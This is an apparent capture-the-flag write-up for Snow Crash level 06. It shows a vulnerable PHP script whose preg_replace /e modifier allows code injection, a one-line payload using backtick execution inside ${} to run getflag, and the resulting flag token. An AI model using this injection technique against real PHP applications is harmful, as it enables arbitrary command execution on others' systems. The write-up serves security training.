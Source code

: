 # Snow Crash - Level 06

## Discovering the Vulnerability

Listing the directory contents with `ls`, we find an executable `level06` and a PHP script. Inspecting the script reveals the following code:

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Understanding the Exploit

The script processes input by searching for patterns like `[x ...]` and using `preg_replace('/e')`. The `/e` modifier evaluates the matched expression as PHP code, making it possible to execute arbitrary commands.

In PHP, `${}` allows executing expressions within a string when used inside `preg_replace('/e')`, leading to a command injection vulnerability.

## Exploiting the Injection

By crafting an input file containing a malicious `[x ...]` pattern, we can execute `getflag` and retrieve the flag.

### Steps:

1. Create a file containing the exploit:

   ```bash
   echo '[x ${`getflag`}]' > /tmp/getflag.txt
   ```

2. Execute the vulnerable script:

   ```bash
   ./level06 /tmp/getflag.txt
   ```

3. The output reveals the flag:

   ```
   PHP Notice:  Undefined variable: Check flag. Here is your token : wiok45aaoguiboiki2tuin6ub
   in /home/user/level06/level06.php(4) : regexp code on line 1
   ```

This successfully retrieves the flag by exploiting the PHP code injection vulnerability.
